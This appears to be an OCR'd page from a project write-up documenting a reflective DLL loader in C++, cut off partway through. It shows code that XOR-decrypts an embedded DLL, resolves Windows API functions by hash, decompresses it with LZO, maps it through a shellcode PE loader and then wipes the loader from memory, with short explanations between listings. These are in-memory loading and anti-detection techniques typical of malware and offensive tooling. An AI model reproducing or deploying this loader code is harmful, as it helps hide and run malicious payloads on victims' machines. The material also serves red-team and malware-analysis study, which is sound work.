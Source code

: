 ```c++
    {
        *((byte*)ptr) ^= KEY_DLL;
    }

    // Fetch WinAPI functions
    HMODULE kernel32 = GetModuleBaseAddress(hashKERNEL32);
    typeVirtualAlloc pVirtualAlloc = (typeVirtualAlloc)GetExportAddress(kernel32, hashVirtualAlloc);
    //Allocate the memory
    LPVOID unpacked_mem = pVirtualAlloc(
        0,
        sizeDllFile,
        MEM_COMMIT,
        PAGE_READWRITE);

    //Unpacked data size
    //(in fact, this variable is unnecessary)
    lzo_uint out_len = 0;
    
    //Unpack with LZO algorithm
    lzo1z_decompress(
        (byte*)start,
        compressedSizeDllFile,
        (byte*)unpacked_mem,
        &out_len,
        0);

    mmemset((void*)start, 0, compressedSizeDllFile);

    // load and call the DLL
    shellcode((HMODULE)unpacked_mem, sizeShellcode, sizeDllFile, ordToCall);

    mmemset(lzo1z_decompress, 0, (SIZE_T)sizeShellcode - ((SIZE_T)lzo1z_decompress - (SIZE_T)GetDLL));
    mmemset((void*)GetDLL, 0, (SIZE_T)lzo1z_decompress - (SIZE_T)GetDLL - SHELLCODE_WIPE_OFFSET);

    return 0;
}
```

### shellcode(...)

This function is the actual PE loader.

The first step is to get the NT header from the payload and retrieve many Windows API functions. `VirtualAlloc` is used to allocate `NTheader->OptionalHeader.SizeOfImage` bytes. The NT header is then copied to this new location and used instead of the previous one.

```c++
// Get headers
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)module;
PIMAGE_NT_HEADERS NTheader = GetNTHeaders((HMODULE)module);

// Fetch WinAPI functions
HMODULE kernel32 = GetModuleBaseAddress(hashKERNEL32);
typeLoadLibraryA pLoadLibraryA = (typeLoadLibraryA)GetExportAddress(kernel32, hashLoadLibraryA);
typeVirtualAlloc pVirtualAlloc = (typeVirtualAlloc)GetExportAddress(kernel32, hashVirtualAlloc);
typeVirtualProtect pVirtualProtect = (typeVirtualProtect)GetExportAddress(kernel32, hashVirtualProtect);
typeVirtualFree pVirtualFree = (typeVirtualFree)GetExportAddress(kernel32, hashVirtualFree);
typeRtlAddFunctionTable pRtlAddFunctionTable = (typeRtlAddFunctionTable)GetExportAddress(kernel32, hashRtlAddFunctionTable);

// Allocate memory for the DLL
```